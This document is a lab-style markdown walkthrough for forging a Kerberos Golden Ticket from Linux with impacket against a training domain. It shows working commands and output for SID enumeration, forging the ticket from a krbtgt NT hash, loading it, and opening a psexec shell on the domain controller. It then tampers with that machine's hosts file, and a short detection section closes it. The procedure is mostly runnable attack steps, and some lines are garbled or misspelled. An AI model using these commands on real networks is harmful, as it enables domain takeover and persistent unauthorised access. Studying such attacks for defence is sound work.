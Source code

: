 # Golden Ticket from Linux

## Linux

- On the Linux side, **impacket** can be used to craft a **Golden Ticket**. [lookupsid.py](https://github.com/fortra/impacket/blob/master/examples/lookupsid.py) will help us retrieve the domain SID and every group and user SID. 

## Search for the Domain SID with lookups 

![Lookupsids](/Ticket-Abuse/Golden-Tickets-Linux/lookupsids.png) 
![Lookupsids](/Ticket-Abuse/Golden-Tickets-Linux/lookupsids-2.png) 
![Lookupsids](/Ticket-Abuse/Golden-Tickets-Linux/lookupsids-3.png) 
![Lookupsids](/Ticket-Abuse/Golden-Tickets-Linux/lookupsids-4.png)

 

	> lookupsid.py inlanefreight.local/htb-student@dc01.inlanefreight.local -domain-sids
	
	> lookupsid.py inlanefreight.local/htb-student@dc01.inlanefreight.local -domain-sids  sids 
	
	Impacket for Exegol - v0.10.1.dev1+20230909.241.3001b261 - Copyright 2022 Fortra - f
	orked by ThePorgs                                                                   
		                                                                               
	Password:                                                                           
	[*] Brute forcing SIDs at dc01.inlanefreight.local                                  
	[*] StringBinding ncacn_np:dc01.inlanefreight.local[\pipe\lsarpc]                   
	[*] Domain SID is: S-1-5-21-1870146311-1183348186-593267556                         
	498: INLANEFREIGHT\Enterprise Read-only Domain Controllers (SidTypeGroup)           
	500: INLANEFREIGHT\Administrator (SidTypeUser)                                      
	501: INLANEFREIGHT\Guest (SidTypeUser)                                              
	502: INLANEFREIGHT\krbtgt (SidTypeUser)                                             
	512: INLANEFREIGHT\Domain Admins (SidTypeGroup)                                     
	513: INLANEFREIGHT\Domain Users (SidTypeGroup)
	
	
 - Once we have the domain SID, we can craft a **Golden Ticket** using [ticketer.py](https://github.com/fortra/impacket/blob/master/examples/ticketer.py). 


## Creating the Golden Ticket 


	> ticketer.py -nthash c0231bd8a4a4de92fca0760c0ba9e7a6 -domain-sid S-1-5-21-1870146311-1183348186-593267556 -domain inlanefreight.local Administrator

	ticketer.py -nthash c0231bd8a4a4de92fca0760c0ba9e7a6 -domain-sid S-1-5-21-1870146311-1183348186-593267556 -domain inlanefreight.local Administrator
	Impacket for Exegol - v0.10.1.dev1+20230909.241.3001b261 - Copyright 2022 Fortra - forked by ThePorgs

	[*] Creating basic skeleton ticket and PAC Infos
	[*] Customizing ticket for inlanefreight.local/Administrator
	[*]     PAC_LOGON_INFO
	[*]     PAC_CLIENT_INFO_TYPE
	[*]     EncTicketPart
	[*]     EncAsRepPart
	[*] Signing/Encrypting final ticket
	[*]     PAC_SERVER_CHECKSUM
	[*]     PAC_PRIVSVR_CHECKSUM
	[*]     EncTicketPart
	[*]     EncASRepPart
	[*] Saving ticket in Administrator.ccache



!{ticketer}(![Lookupsids](/Ticket-Abuse/Golden-Tickets-Linux/ticketer.png) 



- The ticket has been forged and saved in the current directory as **Administrator.ccache**. We can now use this ticket by importing it in **KRB5CCNAME** environment variable and using any impacket tool with the **-k** parameter. 


## Importing and Using the Golden Ticket

	> export KRBBCCNAME=./Administrator.ccache 
	

![Import Ticket] (/Ticket-Abuse/Golden-Tickets-Linux/import-ticket.png) 


## You're FUCKED!!

	> psexec.py -k -no-pass dc01.inlanefreight.local
	> echo 'hacker ip  hacker dns' >> \Windows\System32\Drivers\etc\hosts
	> type \Windows\System32\Drivers\etc\hosts


	
![Hacked](/Ticket-Abuse/Golden-Tickets-Linux/fukd.png) 
![Hacked](/Ticket-Abuse/Golden-Tickets-Linux/fukd-2.png) 
![Hacked](/Ticket-Abuse/Golden-Tickets-Linux/fukd-3.png) 
![Hacked](/Ticket-Abuse/Golden-Tickets-Linux/fukd-4.png) 

## Detection

This type of persistence is **challenging to detect because Golden Tickets are valid TGTs**. **Windows event logs don’t distinguish between a legitimate TGT and a maliciously crafted Golden Ticket**. Also, resetting the impersonated account’s password does not invalidate the ticket.

**Golden tickets are usually created with a much longer lifespan than tickets have by default (Mimikatz makes golden tickets with a default lifespan of 10 years)**. Certain AD monitoring products can detect these **long ticket lifespans as IoC**s.

Golden Tickets can be detected in a few ways: 

1. The account DOMAIN field is blank. 

2. The account DOMAIN field contains DOMAIN FQDN instead of just domain. 


Once a **golden ticket is detected**, the **krbtgt account password must be changed twice to remove the persistence**, as the current and previous passwords are stored in the domain. **The password of the krbtgt account should be changed regularly**, as it is an admin account. 

